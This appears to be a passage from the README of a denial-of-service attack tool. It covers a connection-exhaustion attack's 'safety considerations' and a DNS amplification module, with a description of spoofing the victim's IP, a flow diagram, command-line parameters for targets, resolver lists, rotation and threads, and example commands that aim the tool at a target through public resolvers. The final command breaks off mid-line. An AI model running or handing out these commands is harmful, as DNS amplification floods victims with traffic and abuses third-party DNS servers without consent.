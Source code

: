 **Safety Considerations:**
- Start with a low number of connections
- Monitor server's response time and error logs
- Be aware of server's connection timeout settings
- Use `--verify-vuln` before full attack
- Consider impact on shared hosting environments
- Monitor local resource usage

### Amplification Attacks

#### DNS Amplification

**Description:**  
DNS Amplification is a DDoS attack that exploits DNS resolvers to overwhelm a target with amplified traffic. The attacker sends DNS queries with a spoofed source IP (the victim's IP) to multiple DNS servers. The responses are much larger than the queries, creating an amplification effect that floods the target.

**Attack Flow:**
```mermaid
sequenceDiagram
    participant A as Attacker
    participant D as DNS Servers
    participant V as Victim
    Note over A,D: Small DNS query with spoofed source IP
    A->>D: Query type ANY for example.com (50 bytes)
    Note over D,V: Large DNS response (4000+ bytes)
    D->>V: Complete DNS record set
    Note over V: Amplification factor: ~80x
```

**Key Features:**
- Multiple DNS server support
- Query type selection
- Amplification factor verification
- DNS server rotation
- Traffic volume monitoring
- Automatic server filtering

**Parameters:**
- `--target`: Target IP address to attack
- `--dns-server`: Single DNS server to use
- `--dns-servers-file`: File containing list of DNS servers
- `--query-domain`: Domain to query
- `--query-type`: DNS query type (e.g., ANY, TXT)
- `--recursive`: Enable recursive queries
- `--rotate-dns`: Rotate through DNS servers
- `--verify-amplification`: Verify amplification ratio
- `--amplification-threshold`: Minimum amplification ratio
- `--interval`: Delay between queries
- `--threads`: Number of parallel threads

**Example Usage:**
```bash
# Basic DNS amplification - Single server
python src/cli.py dns-amplification \
    --target 192.168.1.100 \
    --dns-server 8.8.8.8 \
    --query-domain example.com

# Advanced DNS amplification - Multiple servers
python src/cli.py dns-amplification \
    --target 192.168.1.100 \
    --dns-servers-file dns_servers.txt \
    --query-domain example.com \
    --query-type ANY \
```